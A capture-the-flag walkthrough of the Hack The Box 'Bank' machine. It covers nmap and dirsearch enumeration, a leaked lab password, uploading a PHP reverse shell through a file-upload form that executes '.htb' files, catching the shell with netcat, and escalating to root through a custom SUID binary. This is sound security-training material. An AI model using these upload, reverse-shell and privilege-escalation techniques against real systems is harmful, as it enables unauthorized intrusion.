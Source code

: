 +++
draft = true

+++
### Initial enumeration

```bash
# Nmap 7.80 scan initiated Sat Sep 28 21:42:44 2019 as: nmap -sV -sC -O -A -oN O-Detailed -p 80,53,22,U:53 10.10.10.29
Nmap scan report for 10.10.10.29
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   220.12 ms 10.10.14.1
2   229.82 ms 10.10.10.29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 28 21:43:08 2019 -- 1 IP address (1 host up) scanned in 24.59 seconds
```

Going to `http://10.10.10.29` got me the default Apache server page, but as we see there's a `DNS` server running on `port 53` so I added an entry for `bank.htb` in my hosts file and when visiting the address `http://bank.htb` we get a login page. No usual login credentials seemed to work, so I ran `dirsearch` on the URL and got following directories.

```bash
$ sudo dirsearch -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php,txt -f -r -t 200 --simple-report=dirsearch.output
http://bank.htb:80/.php
http://bank.htb:80/index.php
http://bank.htb:80/support.php
http://bank.htb:80/icons/
http://bank.htb:80/login.php
http://bank.htb:80/uploads/
http://bank.htb:80/assets/
http://bank.htb:80/logout.php
http://bank.htb:80/inc/
http://bank.htb:80/server-status/
## --------------------------------- ##
http://bank.htb:80/balance-transfer/
## --------------------------------- ##
http://bank.htb:80/icons/.php
http://bank.htb:80/icons/small/
```

The URL `/balance-transfer/` stood out to me, so I went ahead and explored the directory and found that there are several hundred files and all are encrypted however there's one file whose size is lesser than all the other files.

![](../../../.gitbook/assets/image%20%2850%29.png)

The contents of the file revealed credentials for an account on the system.

```bash
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

So we used the credentials to get to the dashboard.

![Dashboard](../../../.gitbook/assets/image%20%2844%29.png)

There seemed to be another page called `support.php` which seemed interesting as it had a file upload capability \(These are always juicy.\).

![Support](../../../.gitbook/assets/image%20%2831%29.png)

Looking at the source revealed that we can upload file with extension `htb` and have it run as `PHP` code, which as sweet.

![](../../../.gitbook/assets/image%20%2858%29.png)

So I used the `/usr/share/webshells/php/php-reverse-shell.php` from the `kali` repository and uploaded and from the `My Tickets` table opened up the file and caught the reverse shell with `netcat`.

### User own

```bash
$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.29] 44018
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 20:37:39 up  1:37,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ cd chris
$ cat user.txt
37c97***
```

### Root own

I ran `linux smart enum` on the system and found some interesting things about `SUID` binaries.

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

```bash
[*] fst010 Binaries with setuid bit........................................ yes!
---
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
---
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/var/htb/bin/emergency
---
```

So I went ahead and ran the uncommon binary and found that it dropped us into the root shell.

```bash
$ cd /var/htb/bin/                                                                                                                                     
$ ls -la          
total 120         
drwxr-xr-x 2 root root   4096 Jun 14  2017 .                                
drwxr-xr-x 3 root root   4096 Jun 14  2017 ..                               
-rwsr-xr-x 1 root root 112204 Jun 14  2017 emergency                        
$ ./emergency     
id                
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)  
cat /root/root.txt
d5be5***
```

### Learning outcome

Directory scans play a very important role in success with web-servers.